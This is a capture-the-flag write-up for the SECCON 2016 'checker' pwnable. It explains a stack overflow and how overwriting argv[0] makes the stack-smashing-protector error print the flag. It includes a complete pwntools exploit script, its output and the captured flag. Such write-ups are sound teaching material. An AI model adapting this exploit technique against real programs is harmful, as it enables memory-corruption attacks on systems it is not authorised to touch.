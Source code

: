 ```yaml
---
title: SECCON CTF 2016 -- checker
comments: true
permalink: "/:title/"
tags:
- SECCON
- CTF
- BOF
- Pwnable
- Python
categories:
- write-ups
date: '2016-12-12 08:02:00 +0000'
---
```


**Category:** Exploit  
**Points:** 300

<!-- more -->  

64 bit ELF with Full RELRO, stack canary, NX enabled, No PIE.  

A quick run of the program: 
```
$ ./checker 
Hello! What is your name?
NAME : 123

Do you know flag?
>> 123

Do you know flag?
>> yes

Oh, Really??
Please tell me the flag!
FLAG : asdf
You are a liar...
```

By reversing the binary, we found that the program use a function named `getaline()` to read the user input. 
```c
while ( buf && read(0, &buf, 1uLL) )
{
    if ( buf == 10 )
        buf = 0;
    *(_BYTE *)(a1 + (signed int)v4++) = buf; // a1 = input buffer
}
```
We can see that the `getaline()` function is just like `gets()` in `stdio.h`, so the program itself has multiple stack overflow vulnerabilities.   

```
$ ./checker
Hello! What is your name?
NAME : 123

Do you know flag?
>> yes

Oh, Really??
Please tell me the flag!
FLAG : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You are a liar...
*** stack smashing detected ***: ./checker terminated
[1]    70548 abort      ./checker
```

Although we can easily overwrite the return address, however the program has the stack smashing protector (SSP) enabled. Luckliy, the program will read the flag's content and stored it into a buffer which lies in the `.bss` section before entering the main function. So, we can try to **overwrite the content of `argv[0]` ( which stores a `char*` pointer of the program file path ) into the flag buffer's address**. Then, we smash the stack and trigger the SSP, which will then output the following error message: 
```
*** stack smashing detected ***: [flag content] terminated
```

Notice that the original content of `argv[0]` stores a 6 bytes memory address, while the flag's buffer address is 3 bytes (`0x6010c0`). So we'll have to null out the `argv[0]` first before we change it into `0x6010c0`, or else it will crash the program before it was able to output the error message.  
```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "checker.pwn.seccon.jp"
PORT = 14726
ELF_PATH = "./checker"
LIBC_PATH = ""

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
#libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)


if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    pad = 0x178

    r.sendlineafter(": ", "aaaa")
    
    # null out argv[0]
    for i in xrange(8,-1,-1):
        payload = "A"*pad + "B"*i
        r.sendlineafter(">> ", payload)
    
    r.sendlineafter(">> ", "yes")

    # overwrite argv[0] to flag buffer
    payload = "A"*pad + p64(0x6010c0)
    
    r.sendlineafter(": ", payload)
    r.interactive()
    
```

Although the exploit works on the local machine, it failed to work on the remote side. I sent the payload for like a hundred times and it just won't give me the flag. It really frustrated me at that moment because I was so close to capture the flag and the contest is about to end in 5 minutes......  

But there's nothing more I can do, so I just keep sending the same payload again and again, hoping that  it will work at the end of the contest. And then, something amazing happened...
```
[+] Opening connection to checker.pwn.seccon.jp on port 14726: Done
You are a liar...
*** stack smashing detected ***: SECCON{y0u_c4n'7_g37_4_5h3ll,H4h4h4} terminated
[*] Got EOF while reading in interactive
```

lol WTF ? 

I still don't know why it will work at the very end of the contest until now ! I mean it's the same payload ! How is this even possible ? Anyway I managed to submit the flag right before the end of the contest and get the damn 300 points ... What an end @_@!  

flag: `SECCON{y0u_c4n'7_g37_4_5h3ll,H4h4h4}`
